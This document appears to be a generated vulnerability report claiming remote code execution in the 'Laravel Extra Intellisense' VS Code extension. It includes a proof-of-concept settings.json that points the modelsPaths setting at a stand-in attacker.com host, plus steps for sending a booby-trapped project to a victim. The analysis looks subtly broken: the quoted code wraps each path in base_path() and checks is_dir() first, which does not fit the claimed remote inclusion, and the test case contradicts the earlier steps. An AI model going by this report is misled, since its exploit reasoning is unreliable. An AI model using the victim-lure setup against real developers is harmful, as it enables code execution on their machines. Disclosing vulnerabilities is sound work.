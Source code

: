 ### Vulnerability List:

* Vulnerability Name: Code Injection via `modelsPaths` Configuration
    * Description:
        1. Attacker creates a malicious Laravel project and includes a `.vscode/settings.json` file.
        2. In `.vscode/settings.json`, the attacker sets `LaravelExtraIntellisense.modelsPaths` to an array containing a URL pointing to a malicious PHP file hosted on an attacker-controlled server (e.g., `["//attacker.com/malicious.php"]`).
        3. The victim opens the malicious Laravel project in VS Code with the "Laravel Extra Intellisense" extension installed and activated.
        4. When the extension initializes, specifically when `EloquentProvider.loadModels()` is executed, it constructs a PHP script. This script includes an `include_once` statement that uses the paths defined in `LaravelExtraIntellisense.modelsPaths` setting.
        5. The extension executes this PHP script using the `runLaravel` helper function.
        6. The `include_once` statement in the executed PHP script attempts to include and execute the malicious PHP file from the URL specified in `LaravelExtraIntellisense.modelsPaths`.
        7. The PHP code from the attacker's server is executed on the victim's machine within the context of the VS Code extension, leading to Remote Code Execution.
    * Impact: Remote Code Execution (RCE). An attacker can execute arbitrary code on the victim's machine simply by the victim opening a malicious Laravel project in VS Code with the vulnerable extension installed.
    * Vulnerability Rank: Critical
    * Currently Implemented Mitigations: None. The extension directly uses the paths provided in the `modelsPaths` configuration without any validation or sanitization.
    * Missing Mitigations:
        - **Input Sanitization and Validation:** The extension must sanitize and validate the paths provided in the `LaravelExtraIntellisense.modelsPaths` configuration. It should ensure that the paths are valid, point to local directories within the workspace, and prevent the use of external URLs or absolute paths outside the workspace.
        - **Secure Path Handling:** Avoid using `include_once` or similar functions with user-provided paths directly without strict validation. If dynamic inclusion is necessary, implement robust path sanitization and validation to prevent Local File Inclusion and Remote File Inclusion vulnerabilities.
    * Preconditions:
        - The victim must have the "Laravel Extra Intellisense" extension for VS Code installed and activated.
        - The victim must open a malicious Laravel project in VS Code that is provided by the attacker.
        - The attacker must be able to create and include a `.vscode/settings.json` file in the malicious project to configure the `LaravelExtraIntellisense.modelsPaths` setting.
    * Source Code Analysis:
        ```typescript
        // File: ..\vscode-laravel-extra-intellisense\src\EloquentProvider.ts
        // Function: loadModels

        loadModels() {
            var self = this;
            try {
                Helpers.runLaravel(
                    "foreach (['" + vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models']).join('\', \'') + "'] as $modelPath) {" +
                    "   if (is_dir(base_path($modelPath))) {" +
                    "      foreach (scandir(base_path($modelPath)) as $sourceFile) {" +
                    "         if (substr($sourceFile, -4) == '.php' && is_file(base_path(\"$modelPath/$sourceFile\"))) {" +
                    "             include_once base_path(\"$modelPath/$sourceFile\");" + // Vulnerable line: User-controlled path in include_once
                    "         }" +
                    "      }" +
                    "   }" +
                    "}" +
                    "..."
                ).then(function (result) {
                    let models = JSON.parse(result);
                    self.models = models;
                }).catch(function (e) {
                    console.error(e);
                });
            } catch (exception) {
                console.error(exception);
            }
        }
        ```
        - The code retrieves the `modelsPaths` configuration using `vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models'])`.
        - This configuration value, which is user-controlled through `.vscode/settings.json`, is directly embedded into a PHP code string.
        - The `include_once base_path(\"$modelPath/$sourceFile\")` line is vulnerable because `$modelPath` is directly derived from the user-provided `modelsPaths` configuration without sanitization, allowing for injection of arbitrary paths, including URLs.
        - When `runLaravel` executes this PHP code, it attempts to include and execute PHP files from the attacker-specified locations.

    * Security Test Case:
        1. **Attacker Setup:**
            - Set up a web server under attacker's control (e.g., `attacker.com`).
            - Create a malicious PHP file named `malicious.php` on the attacker's web server with the following content:
              ```php
              <?php
              file_put_contents(__DIR__ . '/rce_vulnerability_proof.txt', 'Successfully achieved RCE!');
              ?>
              ```
        2. **Malicious Project Creation:**
            - Create a new directory named `malicious-laravel-project`.
            - Inside `malicious-laravel-project`, create a subdirectory named `.vscode`.
            - Inside `.vscode`, create a file named `settings.json` with the following content:
              ```json
              {
                  "LaravelExtraIntellisense.modelsPaths": ["//attacker.com"]
              }
              ```
            - Zip the `malicious-laravel-project` directory into `malicious-laravel-project.zip`.
        3. **Victim Execution:**
            - Send the `malicious-laravel-project.zip` file to the victim.
            - Instruct the victim to:
                - Extract `malicious-laravel-project.zip` to a directory on their local machine.
                - Open the extracted `malicious-laravel-project` directory in VS Code.
                - Ensure the "Laravel Extra Intellisense" extension is installed and activated.
        4. **Verification:**
            - After the victim opens the project and the extension initializes, check if a file named `rce_vulnerability_proof.txt` has been created in the root directory of the `malicious-laravel-project` on the victim's machine.
            - If `rce_vulnerability_proof.txt` exists and contains the text "Successfully achieved RCE!", the vulnerability is confirmed. This indicates that the malicious PHP code from the attacker's server was successfully executed by the extension, leading to Remote Code Execution.
